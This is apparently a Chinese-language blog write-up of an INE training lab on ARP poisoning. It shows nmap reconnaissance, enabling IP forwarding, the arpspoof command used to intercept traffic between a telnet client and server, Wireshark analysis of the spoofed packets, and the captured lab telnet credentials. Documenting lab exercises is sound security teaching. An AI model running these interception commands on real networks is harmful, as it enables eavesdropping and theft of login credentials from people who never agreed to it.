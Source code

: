 ```yaml
---
layout: post
title: "ARP Poisoning Lab"
date: "2022-07-22"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student
    - Network Attacks
---
```


# ARP Poisoning
## 概述
在本实验中，您将连接到交换网络。尝试通过执行 ARP 中毒攻击来拦截网络流量并窃取`telnet`凭据。

## 任务
![arp-poisoning-lab.png](/img/in-post/ine/arp-poisoning-lab.png)

### 实验室环境
在这个实验室环境中，用户将获得对 Kali GUI 实例的访问权限。在同一网络上有一台 telnet 服务器和一台客户端机器，客户端机器每 30 秒向 telnet 服务器进行身份验证。可以使用安装在 Kali 实例上的工具在两台机器上执行攻击。

目的： 识别telnet服务器和客户端机器，通过ARP中毒攻击窃取telnet登录凭据，并登录服务器。

### 指示
* 使用Kali 实例的eth1接口进行攻击并监控流量。
* 不要攻击位于 IP 地址 10.100.13.1 的网关

### 工具
该实验室的最佳工具是：
* arpspoof
* Wireshark

## 我自己的思路
```
└─# ifconfig
adlab0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.3  netmask 255.255.255.0  broadcast 192.168.0.255
        inet6 fe80::a00:27ff:fef9:76b6  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:f9:76:b6  txqueuelen 1000  (Ethernet)
        RX packets 823  bytes 62989 (61.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1775  bytes 1692055 (1.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.100.13.140  netmask 255.255.255.0  broadcast 10.100.13.255
        inet6 fe80::a00:27ff:fed4:ee5d  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:d4:ee:5d  txqueuelen 1000  (Ethernet)
        RX packets 3  bytes 180 (180.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 11  bytes 866 (866.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1790  bytes 23210375 (22.1 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1790  bytes 23210375 (22.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

检查和eth1同网络的存活主机：

```
nmap -sn 10.100.13.0/24
```

```
└─# nmap -sn 10.100.13.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-22 09:48 EDT
Nmap scan report for 10.100.13.1
Host is up (0.0024s latency).
MAC Address: 0A:00:27:00:00:01 (Unknown)
Nmap scan report for 10.100.13.36
Host is up (0.00073s latency).
MAC Address: 08:00:27:4A:45:F3 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.100.13.37
Host is up (0.0012s latency).
MAC Address: 08:00:27:99:AA:A7 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.100.13.140
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 28.77 seconds
```

探测4个存活主机上的服务和版本：

```
nmap -sV 10.100.13.1,36,37,140
```

```
└─# nmap -sV 10.100.13.1,36,37,140
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-22 09:55 EDT
Nmap scan report for 10.100.13.1
Host is up (0.00022s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3389/tcp open  ms-wbt-server xrdp
MAC Address: 0A:00:27:00:00:01 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 10.100.13.36
Host is up (0.00060s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
23/tcp open  telnet  Linux telnetd
MAC Address: 08:00:27:4A:45:F3 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 10.100.13.37
Host is up (0.00064s latency).
All 1000 scanned ports on 10.100.13.37 are closed
MAC Address: 08:00:27:99:AA:A7 (Oracle VirtualBox virtual NIC)

Nmap scan report for 10.100.13.140
Host is up (0.0000040s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server xrdp
5910/tcp open  vnc           VNC (protocol 3.8)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 4 IP addresses (4 hosts up) scanned in 50.08 seconds
```

已知：10.100.13.1是网关，攻击者的kali是10.100.13.140。可以推测出，10.100.13.36是telnet服务器，而10.100.13.37是客户端。

用Wireshark监听eth1，并没有捕获到任何Telnet数据包。

首先，启用Linux Kernel IP Forwarding，这是一项将Linux机器转换为路由器的功能。通过启用IP转发，可以将拦截的数据包转发到真正的目标主机。

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

```
┌──(rootkali)-[~]
└─# cat /proc/sys/net/ipv4/ip_forward
0
                                                                                                                                                                                             
┌──(rootkali)-[~]
└─# echo 1 > /proc/sys/net/ipv4/ip_forward
                                                                                                                                                                                                                                                                                                                                                
┌──(rootkali)-[~]
└─# cat /proc/sys/net/ipv4/ip_forward                                                                                                                                                    1 ⨯
1

```

然后，运行arpspoof：

```
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36
```

![broadcast-to-telnet-server-client.png](/img/in-post/ine/broadcast-to-telnet-server-client.png)

|Actor|IP|MAC|
|---|---|---|
|Kali|10.100.13.140|08:00:27:d4:ee:5d|
|Telnet Server|10.100.13.36|08:00:27:4a:45:f3|
|Client|10.100.13.37|08:00:27:99:aa:a7|

Kali在得知Telnet Server和Client的MAC地址后，开始进行ARP欺骗。

![arp-spoof.png](/img/in-post/ine/arp-spoof.png)

kali发送未经请求的ARP响应，告诉Telnet Server，10.100.13.37（Client）is at 08:00:27:d4:ee:5d（Kali's Mac）。
Kali发送未经请求的ARP响应，告诉Client，10.100.13.36（Telnet Server）is at 08:00:27:d4:ee:5d（Kali's Mac）。
注意，在Kali发送给Telnet Server的数据包中，Wireshark警告Duplicate IP address detected for 10.100.13.37（Client）(08:00:27:d4:ee:5d)（Kali's MAC）- also in use by 08:00:27:99:aa:a7（Client's MAC）(frame 30)。
意思是客户端的IP地址对应了重复的MAC地址，其中一个是Kali的MAC，另一个是客户端真正的MAC地址。
同理，在Kali发送给Client的数据包中，Wireshark警告Duplicate IP address detected for 10.100.13.36（Telnet Server）(08:00:27:d4:ee:5d)（Kali's MAC）- also in use by 08:00:27:4a:45:f3（Telnet Server's MAC）(frame 31)。
意思是Telent服务器的IP地址对应了重复的MAC地址，其中一个是Kali的MAC，另一个是Telnet服务器真正的MAC地址。

![captured-telnet-packages.png](/img/in-post/ine/captured-telnet-packages.png)

![telnet-credential.png](/img/in-post/ine/telnet-credential.png)

获取到Telnet的凭据：

```
ine login: admin
Password: MyS3cr3tP455
```

按`Ctrl+C`终止arpspoof，清理并重新定位目标...

![ctrlcarpspoof.png](/img/in-post/ine/ctrlcarpspoof.png)

kali告诉client，Telnet Server的正确MAC地址。kali告诉Telnet Server，Client的正确MAC地址。等待工具发送具有正确MAC地址的未经请求的ARP响应。这防止目标将数据包发送到攻击者机器。

![cleaning-up-arp-cache.png](/img/in-post/ine/cleaning-up-arp-cache.png)

```
telnet 10.100.13.36
```

输入凭据即可登录到服务器。